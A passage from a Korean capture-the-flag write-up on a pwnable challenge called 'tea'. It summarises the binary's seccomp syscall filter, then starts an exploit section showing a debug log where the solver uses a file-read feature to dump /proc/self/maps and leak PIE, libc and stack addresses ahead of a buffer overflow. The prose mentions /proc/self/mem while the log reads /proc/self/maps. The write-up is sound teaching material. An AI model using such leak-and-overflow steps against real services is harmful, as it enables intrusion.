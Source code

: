 꽤 길지만, 요약해보면 다음과 같습니다. 우선, 허용되는 **syscall**은 `exit()`, `exit_group()`, `fstat()`, `brk()`, `mmap()`, `read()`, `lseek()`, `open()`, `close()`, `write()`입니다. 당연히 `sys_execve()`는 없내열 ㅠㅠ 바로 허용되지 않고, 몇몇 조건이 붙어있는 **syscall**도 있는데, `write()`의 경우 첫 번째 인자가 1 혹은 2여야 하며, `close()`의 경우 첫 번째 인자가 0, 1, 2이 아니여야 **ALLOW** 됨을 알 수 있습니다. 즉 `fd`가 1과 2여야만  `write()`이 가능하고, `fd`가 0, 1, 2이 아니여야만  `close()`가 가능합니다.



# Exploit

### stack leak

우선, **child_process**에서 발생하는 **BOF**를 잘 사용하려면 본 바이너리에 걸려있는 **PIE**를 해결해야 합니다. 이 문제는 `/proc/self/mem` 파일을 읽어 들임으로써 해결할 수 있습니다.

```shell
'(r)ead or (w)rite access?\n'
[DEBUG] Sent 0x2 bytes:
    'r\n'
[DEBUG] Received 0xa bytes:
    'filename?\n'
[DEBUG] Sent 0x10 bytes:
    '/proc/self/maps\n'
[DEBUG] Received 0x7 bytes:
    'lseek?\n'
[DEBUG] Sent 0x2 bytes:
    '0\n'
[DEBUG] Received 0x7 bytes:
    'count?\n'
[DEBUG] Sent 0x5 bytes:
    '4096\n'
[DEBUG] Received 0x6e3 bytes:
    'read 1735 bytes\n'
    '55f3660dd000-55f3660e0000 r-xp 00000000 08:01 1718487                    /home/m444ndu/hassan_kuality/ch4rli3kop/round1/tea/tea\n'
    '55f3662df000-55f3662e0000 r--p 00002000 08:01 1718487                    /home/m444ndu/hassan_kuality/ch4rli3kop/round1/tea/tea\n'
    '55f3662e0000-55f3662e1000 rw-p 00003000 08:01 1718487                    /home/m444ndu/hassan_kuality/ch4rli3kop/round1/tea/tea\n'
    '55f36822f000-55f368252000 rw-p 00000000 00:00 0                          [heap]\n'
    '6f34edb3a000-7f34edb3a000 rw-p 00000000 00:00 0 \n'
    '7f34edb3a000-7f34edcfa000 r-xp 00000000 08:01 2359381                    /lib/x86_64-linux-gnu/libc-2.23.so\n'
    '7f34edcfa000-7f34edefa000 ---p 001c0000 08:01 2359381                    /lib/x86_64-linux-gnu/libc-2.23.so\n'
    '7f34edefa000-7f34edefe000 r--p 001c0000 08:01 2359381                    /lib/x86_64-linux-gnu/libc-2.23.so\n'
    '7f34edefe000-7f34edf00000 rw-p 001c4000 08:01 2359381                    /lib/x86_64-linux-gnu/libc-2.23.so\n'
    '7f34edf00000-7f34edf04000 rw-p 00000000 00:00 0 \n'
    '7f34edf04000-7f34edf2a000 r-xp 00000000 08:01 2359379                    /lib/x86_64-linux-gnu/ld-2.23.so\n'
    '7f34ee109000-7f34ee10c000 rw-p 00000000 00:00 0 \n'
    '7f34ee129000-7f34ee12a000 r--p 00025000 08:01 2359379                    /lib/x86_64-linux-gnu/ld-2.23.so\n'
    '7f34ee12a000-7f34ee12b000 rw-p 00026000 08:01 2359379                    /lib/x86_64-linux-gnu/ld-2.23.so\n'
    '7f34ee12b000-7f34ee12c000 rw-p 00000000 00:00 0 \n'
    '7ffc41f9b000-7ffc41fbc000 rw-p 00000000 00:00 0                          [stack]\n'
    '7ffc41fc4000-7ffc41fc7000 r--p 00000000 00:00 0                          [vvar]\n'
    '7ffc41fc7000-7ffc41fc9000 r-xp 00000000 00:00 0                          [vdso]\n'
    'ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]\n'
    'quit? (y/n)\n'
```
